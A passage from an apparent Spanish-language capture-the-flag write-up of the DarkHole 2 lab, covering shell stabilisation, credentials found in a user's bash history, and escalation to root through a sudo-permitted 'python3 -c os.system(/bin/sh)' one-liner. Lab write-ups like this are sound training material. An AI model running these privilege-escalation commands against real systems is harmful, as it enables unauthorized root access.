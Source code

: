 ![[darkhole_2.26.png]]

Shell inversa obtenida como losy.

#### Estabilización de TTY

Comandos para estabilizar la shell:

/usr/bin/script -qc /bin/bash /dev/null

Luego CTRL+Z y ejecutar:

stty raw -echo; fg

Finalmente:

export TERM=xterm

#### Análisis del Historial de losy

Comando:

history

![[darkhole_2.27.png]]

> [!danger] Información Crítica en Historial
> Comandos encontrados:
> 1. sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
> 2. sudo python3 -c 'import os; os.system("/bin/sh")'
> 3. P0assw0rd losy:gang (credenciales expuestas)

El usuario losy tiene permisos sudo para ejecutar Python como root.

### Escalada a Root

![[darkhole_2.0.png]]

Comando para obtener shell root:

sudo python3 -c 'import os; os.system("/bin/sh")'

Contraseña usada: gang

Shell de root obtenida. Flag root.txt capturada en /root.

---

## Evidencias

Comando whoami ejecutado como root:

root

Comando hostname:

darkhole

Flags capturadas:
- user.txt: [capturada en /home/]
- root.txt: [capturada en /root/]
